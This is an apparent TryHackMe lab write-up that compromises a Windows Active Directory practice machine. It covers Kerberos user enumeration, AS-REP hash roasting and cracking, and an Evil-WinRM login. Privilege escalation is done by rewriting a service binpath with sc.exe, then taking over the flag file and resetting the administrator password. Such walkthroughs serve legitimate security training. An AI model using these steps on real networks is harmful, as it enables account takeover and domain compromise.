 # Services

[TryHackMe room link](https://tryhackme.com/room/services)

# Informations about the room

> Meet the team!
Whenever you are ready, click on the Start Machine button to fire up the Virtual Machine. Please allow 3-5 minutes for the VM to fully start.

# Open ports

53/tcp    open  domain        syn-ack Simple DNS Plus

80/tcp    open  http          syn-ack Microsoft IIS httpd 10.0

88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2023-04-21 19:39:20Z)

135/tcp   open  msrpc         syn-ack Microsoft Windows RPC

139/tcp   open  netbios-ssn   syn-ack Microsoft Windows netbios-ssn

389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)

445/tcp   open  microsoft-ds? syn-ack

464/tcp   open  kpasswd5?     syn-ack

593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0

636/tcp   open  tcpwrapped    syn-ack

3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: services.local0., Site: Default-First-Site-Name)

3269/tcp  open  tcpwrapped    syn-ack

3389/tcp  open  ms-wbt-server syn-ack Microsoft Terminal Services

5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

7680/tcp  open  pando-pub?    syn-ack

9389/tcp  open  mc-nmf        syn-ack .NET Message Framing

47001/tcp open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)

49664/tcp open  msrpc         syn-ack Microsoft Windows RPC

49665/tcp open  msrpc         syn-ack Microsoft Windows RPC

49666/tcp open  msrpc         syn-ack Microsoft Windows RPC

49667/tcp open  msrpc         syn-ack Microsoft Windows RPC

49668/tcp open  msrpc         syn-ack Microsoft Windows RPC

49674/tcp open  msrpc         syn-ack Microsoft Windows RPC

49675/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0

49676/tcp open  msrpc         syn-ack Microsoft Windows RPC

49678/tcp open  msrpc         syn-ack Microsoft Windows RPC

49679/tcp open  msrpc         syn-ack Microsoft Windows RPC

49696/tcp open  msrpc         syn-ack Microsoft Windows RPC

49706/tcp open  msrpc         syn-ack Microsoft Windows RPC

# Enumeration

This is a Windows machine that seems to be AD domain joined, you need to add the domain to the `etc/hosts` file

In the `http://services.local/about.html` page we can see possible usernames

We can try to enumerate users with `kerbrute`

```console
❯ ./kerbrute_linux_amd64 userenum --dc 10.10.66.49 -d services.local users.txt -o valid_users.txt                                      
                                                                                                                                       
    __             __               __                                                                                                 
   / /_____  _____/ /_  _______  __/ /____                                                                                             
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                         

Version: v1.0.3 (9dad6e1) - 04/21/23 - Ronnie Flathers @ropnop

2023/04/21 23:35:55 >  Using KDC(s):
2023/04/21 23:35:55 >   10.10.66.49:88

2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.doe@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       w.masters@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.larusso@services.local
2023/04/21 23:35:55 >  [+] VALID USERNAME:       j.rock@services.local
2023/04/21 23:35:55 >  Done! Tested 12 usernames (4 valid) in 0.157 seconds

```

With kerbrute i did not manage to get preauth hashes so i used this Metasploit module too `auxiliary/gather/kerberos_enumusers`: 

```console
[*] Using domain: SERVICES.LOCAL - 10.10.66.49:88       ...
[*] 10.10.66.49 - User: "joanne.doe" user not found
[+] 10.10.66.49 - User: "j.doe" is present
[!] No active DB -- Credential data will not be saved!
[*] 10.10.66.49 - User: "joanne.d" user not found
[*] 10.10.66.49 - User: "jack.rock" user not found
[+] 10.10.66.49 - User: "j.rock" does not require preauthentication. Hash: REDACTED
[*] 10.10.66.49 - User: "jack.r" user not found
[*] 10.10.66.49 - User: "will.masters" user not found
[+] 10.10.66.49 - User: "w.masters" is present
[*] 10.10.66.49 - User: "will.m" user not found
[*] 10.10.66.49 - User: "johnny.larusso" user not found
[+] 10.10.66.49 - User: "j.larusso" is present
[*] 10.10.66.49 - User: "johnny.l" user not found
[*] Auxiliary module execution completed
```

We can now crack the hash with Hashcat or John or with whatever you like:

```console
hashcat hash.txt /usr/share/wordlists/rockyou.txt
```
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

To connect to the machine you can use RDP or `Evil-WinRM`

`evil-winrm -i 10.10.66.49 -u j.rock -p REDACTED`

# Privilege escalation

If we type `net user j.rock` we can see that we are in the Server Operators group

To get Administrator permissions we can change the binpath of certain services

To find those services type `services` in the WinRM shell
```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> services                                                                                                          
                                                                                                                                                             
Path                                                                           Privileges Service                                                            
----                                                                           ---------- -------                                                            
C:\Windows\ADWS\Microsoft.ActiveDirectory.WebServices.exe                            True ADWS                                                               
"C:\Program Files\Amazon\SSM\amazon-ssm-agent.exe"                                   True AmazonSSMAgent                                                     
"C:\Program Files\Amazon\XenTools\LiteAgent.exe"                                     True AWSLiteAgent                                                       
"C:\Program Files\Amazon\cfn-bootstrap\winhup.exe"                                   True cfn-hup                                                            
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\SMSvcHost.exe                        True NetTcpPortSharing                                                  
C:\Windows\SysWow64\perfhost.exe                                                     True PerfHost                                                           
"C:\Program Files\Windows Defender Advanced Threat Protection\MsSense.exe"          False Sense                                                              
C:\Windows\servicing\TrustedInstaller.exe                                           False TrustedInstaller                                                   
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\NisSrv.exe"        True WdNisSvc                                                           
"C:\ProgramData\Microsoft\Windows Defender\Platform\4.18.2302.7-0\MsMpEng.exe"       True WinDefend                                                          
"C:\Program Files\Windows Media Player\wmpnetwk.exe"                                False WMPNetworkSvc 
```

We can use i think almost all of those services, i am gonna use the AD WebServices 

When you change the binpath you can specify a reverse shell that you uploaded or just add `j.rock` to the administrators group:
```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe config adws binpath="net localgroup administrators j.rock /add"
```

Now stop and restart the service
```
*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe stop adws 

*Evil-WinRM* PS C:\Users\j.rock\Documents> sc.exe start adws 
```

Exit the shell and log in again

Now you should be in the administrators group

```console
*Evil-WinRM* PS C:\Users\j.rock\Documents> net user j.rock
User name                    j.rock
Full Name                    Jack Rock
Comment                      IT Support 
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            2/15/2023 5:42:32 AM
Password expires             Never
Password changeable          2/16/2023 5:42:32 AM
Password required            No
User may change password     Yes

Workstations allowed         All
Logon script
User profile
Home directory
Last logon                   Never

Logon hours allowed          All

Local Group Memberships      *Administrators       *Remote Management Use
                             *Server Operators
Global Group memberships     *Domain Users
The command completed successfully.
```

But we still cannot cat the root flag

Since we are in the Admins group you can change the permissions of the `root.txt` and own the file: 
```
*Evil-WinRM* PS C:\Users\j.rock\Desktop> cacls root.txt /e /p j.rock:f
```

Or change the Administrator account password and then log in and cat the flag:
```
*Evil-WinRM* PS C:\Users\j.rock\Desktop> net user administrator password123$
```

Or the last thing that you can do is use [Psexec](https://learn.microsoft.com/en-us/sysinternals/downloads/psexec) in a RDP session to spawn a shell as SYSTEM 

```
TYPE THIS IN A ELEVATED COMMAND PROMPT OR POWERSHELL SESSION

.\PsExec.exe -i -s cmd.exe 
```
